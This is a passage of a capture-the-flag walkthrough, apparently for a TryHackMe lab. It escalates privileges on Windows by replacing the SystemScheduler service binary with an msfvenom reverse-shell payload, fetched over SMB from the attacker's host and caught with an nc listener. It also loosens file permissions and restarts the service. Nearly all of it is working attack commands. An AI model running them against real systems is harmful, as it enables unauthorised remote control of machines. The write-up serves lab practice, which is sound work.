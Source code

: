 Prepare shell

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.19.145 LPORT=1111 -f exe -o shell.exe

┌──(kali㉿kali)-[/tmp/www]
└─$ smbserver.py s . -smb2support
```


> [!NOTE] Note
> Using `-f exe` instead of `-f exe-service` will cause error message after restarting the service, but the reverse shell will still work

Start listner

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
```

Download file and set FULL permission for everyone

```bash
PS C:\> cd C:\PROGRA~2\SYSTEM~1\
PS C:\Program Files (x86)\SystemScheduler> move WService.exe WService.exe~
PS C:\Program Files (x86)\SystemScheduler> net use \\10.11.19.145\s /user:s s
The command completed successfully.

PS C:\Program Files (x86)\SystemScheduler> copy \\10.11.19.145\s\shell.exe .\WService.exe

PS C:\Program Files (x86)\SystemScheduler> icacls WService.exe /grant Everyone:F
processed file: WService.exe
Successfully processed 1 files; Failed processing 0 files
```

Restart Service

```bash
PS C:\Program Files (x86)\SystemScheduler> sc.exe stop WindowsScheduler

SERVICE_NAME: WindowsScheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x3e8
PS C:\Program Files (x86)\SystemScheduler> sc.exe start WindowsScheduler
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```
